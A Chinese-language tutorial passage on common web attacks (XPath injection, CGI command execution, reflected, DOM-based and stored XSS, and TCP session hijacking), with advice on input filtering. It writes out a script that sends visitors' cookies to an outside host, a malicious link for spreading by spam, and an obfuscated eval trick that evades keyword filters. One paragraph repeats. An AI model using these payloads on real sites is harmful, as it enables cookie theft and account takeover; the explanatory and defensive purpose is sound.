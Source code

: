 XPath注入跟SQL注入差不多，只不过这里的数据库走的xml格式，攻击方式自然也得按xml查找的语法来了，具体 可看这里 。

cgi命令执行指的是用户远程访问cgi脚本时，通过提交恶意的参数让服务器执行相关的cgi命令来获取信息甚至操纵服务器。有兴趣的朋友可以 看下这里 。

对于这几个攻击，我们需要做的自然是对提交参数的过滤，最好是前端过滤一遍，后端也过滤一遍（后端的过滤和拦截是最重要的，毕竟通过在浏览器禁用脚本的配置可以躲过前端的过滤）。

XSS（cross-site scripting跨域脚本攻击）攻击也是最常见的WEB攻击之一，其重点是“跨域”和“客户端执行”。我们还是拿那个图书馆网站book.com来调侃下。

假设页面右上角有一个搜索书籍的地方，你随便输入一本压根就没有的书，比如“有钱任性指南”，然后点击“搜索”按钮。这时候页面 ( book.com/search?name=有钱任性指南 ) 会返回一段信息：

您搜索的书籍“有钱任性指南”不存在:

好的，那我们输入这个怎样：

```
<script>alert('没有书开个毛线书店啊')</script>
```
假设这个图书馆站点没有对数据做任何过滤，而且会原封不动地把用户输入的数据展示回来，那么返回的页面自然也会返回这段脚本，从而执行它。
但是这样不好玩，既然要做攻击，我们就要获取用户的数据，要获取数据自然要把信息传回我们的服务器（假设接收信息的地址是http://vajoy/get），那咱们可以这样写：

```
<script>document.location='http://vajoy/get?cookie='+document.cookie</script>
```

不过这样不好玩啊，收到的总是我们自己的数据，我们要收集的应该是别人的cookie信息啊！

小意思，不妨通过QQ群，或者通过群发垃圾邮件，来让其他人点击这个地址：

```
book.com/search?name=<script>document.location='http://vajoy/get?cookie='+document.cookie</script>
```

&emsp;&emsp;这种便是XSS攻击中的一种，称为“Reflected XSS”——基于反射的XSS攻击，主要依靠站点服务端返回脚本，在客户端触发执行从而发起WEB攻击。

与其相近的是“DOM-based or local XSS”——基于DOM或本地的XSS攻击。拿我现在工作的项目做比方——为用户提供免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本，从而植入悬浮广告（当然你可以关闭它），这貌似没什么，但如果插入的脚本是获取你敏感数据的恶意脚本那就不一样了。像这种直接存在于页面，无须经过服务器返回脚本处理就直接跨域发送用户信息的行为就是基于本地的XSS攻击。

还有最后一种称为“Stored XSS”——基于存储的XSS攻击。它是通过贴吧啊博客园啊等地方来发表带有恶意跨域脚本的帖子或文章，从而把恶意脚本存储在里面，每个访问该帖子/文章的人就会中招。

还记得一开始加载本文章的alert弹窗么？假设博客园对文章进行了过滤，把全部“alert”啊、"eval"啊等敏感字符都过滤掉，那我们怎么办？我们可以这样：

还记得一开始加载本文章的alert弹窗么？假设博客园对文章进行了过滤，把全部“alert”啊、"eval"啊等敏感字符都过滤掉，那我们怎么办？我们可以这样：

```
<script type="text/javascript">
var x='eva'+String.fromCharCode(108),y=window,e='a'+String.fromCharCode(108)+'ert("欢迎收看本文章")';
y[x]['call'](this,e);
</script>
```
照样实现我们想要的弹窗无误

对于XSS的预防自然也是对提交数据的过滤，另外还有一点——谨慎返回用户提交的内容！

#### 会话劫持
百度百科有个很有意思的引喻——“在现实生活中，比如你去市场买菜，在交完钱后你要求先去干一些别的事情，稍候再来拿菜；如果这个时候某个陌生人要求把菜拿走，卖菜的人会把菜给陌生人吗？”

&emsp;&emsp;这个比喻很有意思，我们常规访问一个http网站时是与其服务器建立了一次HTTP会话。假设你宿舍楼的“朋友”都跟你处于同一个子网上，其中有人想伪装成你来劫持你的HTTP会话，那么服务器会把菜，哦不，是信息返回给那个人吗？

答案是肯定的，因为HTTP会话并不安全。它在经过TCP/IP协议封装传输数据时，在传输的数据的每一个字节中插入一个32位的序列号码，这个序列号用来保持跟踪数据和提供可靠性（序列号是依循数据顺序逐步递增的）。第三方攻击者可以通过嗅探的方式来获取用户与服务器通讯中的报文信息，如果他能猜测到数据中的序列号，那便能把合法的用户断开，伪装成合法用户让自己控制后续的通话。
